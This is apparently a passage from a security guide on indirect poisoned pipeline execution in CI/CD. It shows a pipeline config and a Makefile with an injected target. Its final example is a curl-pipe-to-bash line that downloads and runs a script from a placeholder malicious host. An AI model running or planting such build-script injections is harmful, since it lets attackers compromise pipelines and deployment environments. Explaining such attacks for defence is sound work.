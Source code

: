 
### Indirect PPE (i-PPE)

Cases where the attacker cannot directly change the configuration files, or that these changes are not taken into account when triggered. In these cases, the attacker can infect scripts used by the pipeline in order to run code, for example, make-files, test scripts, build scripts, etc.

Pipeline Configuration:

```
stages:
  - name: Build
    command:
      - make build

  - name: Test
    command:
      - make test

  - name: Deploy
    command:
      - make deploy
```


In this example, the pipeline consists of three stages: Build, Test, and Deploy. The attacker cannot directly modify the pipeline configuration files, but they can infect the scripts used by the pipeline to execute their malicious code.

Example of Infected Script: Let's consider the makefiles used in the pipeline as an example. The attacker can inject malicious code into one of the makefiles, such as the `Makefile` used in the Build stage:

```
build:
    @echo "Building the application"
    @make malicious_code

malicious_code:
    @echo "Executing malicious code"
    # Injected malicious commands here
```

In this modified `Makefile`, the attacker has added a new target called `malicious_code`. When the `build` target is executed in the pipeline, it will also execute the `malicious_code` target, allowing the attacker's injected malicious commands to run.

Example Awesome Commands: Here's an example of an awesome command that the attacker could inject into the `malicious_code` target:

```
malicious_code:
    @echo "Executing malicious code"
    curl -s http://malicious-site.com/malware-script.sh | bash
```

In this example, the injected command downloads a malicious script from a remote server and executes it using the `bash` command. This can allow the attacker to further compromise the pipeline or the Post-Production Environment.
